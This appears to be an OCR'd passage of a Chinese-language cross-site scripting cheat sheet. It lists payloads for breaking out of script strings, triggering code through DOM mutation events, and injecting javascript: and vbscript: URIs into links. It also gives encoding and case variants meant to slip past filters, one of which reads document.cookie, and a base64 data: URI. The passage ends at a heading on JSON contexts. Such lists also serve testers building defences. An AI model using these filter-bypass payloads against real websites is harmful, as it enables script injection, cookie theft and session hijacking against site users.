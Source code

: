 类似这种情况：
```
<script>
Var
x=”Input”;
</script>
```
通常，我们使用`“></script>`,闭合前面的`</script>`标签，然而在这种情况，我们也可以直接输入执行脚本`alert()`, `prompt()`
confirm() ，例如：
```
“;alert(1)//
```
##非常规事件监听

DOMfocusin,DOMfocusout,等事件，这些需要特定的事件监听适当的执行。例如：
```
";document.body.addEventListener("DOMActivate",alert(1))//
";document.body.addEventListener("DOMActivate",prompt(1))//
";document.body.addEventListener("DOMActivate",confirm(1))//
```
此类事件的列表
```
DOMAttrModified
DOMCharacterDataModified
DOMFocusIn
DOMFocusOut
DOMMouseScroll
DOMNodeInserted
DOMNodeInsertedIntoDocument
DOMNodeRemoved
DOMNodeRemovedFromDocument
DOMSubtreeModified
```
超文本内容

代码中的情况如下
```
<a
href=”Userinput”>Click</a>
可以使用javascript:alert(1)//直接执行<a
href=”javascript:alert(1)//”>Click</a>
```

变形

主要包含大小写和JavaScript变形
```
    javascript&#058;alert(1)
    javaSCRIPT&colon;alert(1)
    JaVaScRipT:alert(1)
    javas&Tab;cript:\u0061lert(1);
    javascript:\u0061lert&#x28;1&#x29
    javascript&#x3A;alert&lpar;document&period;cookie&rpar;      // AsharJaved
```
IE10以下和URI中可以使用VBScript
```
    vbscript:alert(1);
    vbscript&#058;alert(1);
    vbscr&Tab;ipt:alert(1)"
```
Data URl
```
    data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```
##JSON内容

